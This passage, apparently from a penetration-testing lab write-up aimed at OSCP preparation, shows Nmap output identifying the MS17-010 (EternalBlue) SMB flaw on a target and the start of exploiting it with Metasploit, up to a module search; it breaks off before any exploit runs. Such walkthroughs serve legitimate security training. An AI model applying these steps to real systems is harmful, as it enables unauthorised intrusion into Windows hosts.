```
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb2-time: Protocol negotiation failed (SMB2)

Nmap done: 1 IP address (1 host up) scanned in 88.81 seconds
```

Seeing the output from Nmap, we can see some of the scripts failed (most likely because it was not vulnerable), but we do see that it found one vulnerability which is `smb-vuln-ms17-010`. This vulnerability is also known as `EternalBlue` which was developed by the NSA. If you want to read more about EternalBlue, you can check out a Wikipedia page about it [here](https://en.wikipedia.org/wiki/EternalBlue). For now, let's figure out if we can gain initial access to this machine through this attack vector.

## Exploiting EternalBlue

When approaching this exploit, there are two ways we can do this: manually, or with the Metasploit Framework. "The Metasploit Framework is a Ruby-based, modular penetration testing platform that enables you to write, test, and execute exploit code. The Metasploit Framework contains a suite of tools that you can use to test security vulnerabilities, enumerate networks, execute attacks, and evade detection. At its core, the Metasploit Framework is a collection of commonly used tools that provide a complete environment for penetration testing and exploit development" ([Rapid7](https://docs.rapid7.com/metasploit/msf-overview/)). Seeing what Metasploit is, it definitely sounds like an enticing option, but if you are prepping for the OSCP, you might want to do Metasploit and a manual method. The reason for this is using the Metasploit Framework is only allowed once for the OSCP. Knowing this, it seems practical to go and figure out how to manually exploit this as well as use the Metasploit Framework so let's do both.

#### Metasploit Framework

```
┌──(root@kali)-[~]
└─# msfconsole                          
                                                  
IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v6.0.41-dev                          ]
+ -- --=[ 2122 exploits - 1138 auxiliary - 360 post       ]
+ -- --=[ 594 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: Enable HTTP request and response logging 
with set HttpTrace true

msf6 > search ms17-010

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
```